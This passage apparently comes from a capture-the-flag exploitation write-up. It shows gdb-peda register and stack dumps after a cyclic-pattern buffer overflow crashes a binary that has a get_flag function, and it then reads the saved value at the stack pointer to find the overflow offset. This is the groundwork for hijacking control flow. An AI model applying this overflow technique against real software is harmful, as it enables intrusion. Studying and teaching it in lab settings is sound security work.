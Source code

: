 ```
R12: 0x4004c0 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe230 ("lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y")
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4005de <main+40>:  call   0x400470 <puts@plt>
   0x4005e3 <main+45>:  mov    eax,0x1
   0x4005e8 <main+50>:  leave  
=> 0x4005e9 <main+51>:  ret    
   0x4005ea <get_flag>: push   rbp
   0x4005eb <get_flag+1>:       mov    rbp,rsp
   0x4005ee <get_flag+4>:       sub    rsp,0x20
   0x4005f2 <get_flag+8>:       mov    DWORD PTR [rbp-0x14],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe158 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA"...)
0008| 0x7fffffffe160 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%O"...)
0016| 0x7fffffffe168 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)
0024| 0x7fffffffe170 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA"...)
0032| 0x7fffffffe178 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%S"...)
0040| 0x7fffffffe180 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%"...)
0048| 0x7fffffffe188 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA"...)
0056| 0x7fffffffe190 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%W"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004005e9 in main ()
```

The program overflowed and caused a segmentation fault. Let's check the value of the instruction pointer.

```
gdb-peda$ x/wx $rsp
0x7fffffffe158: 0x3941416a
```
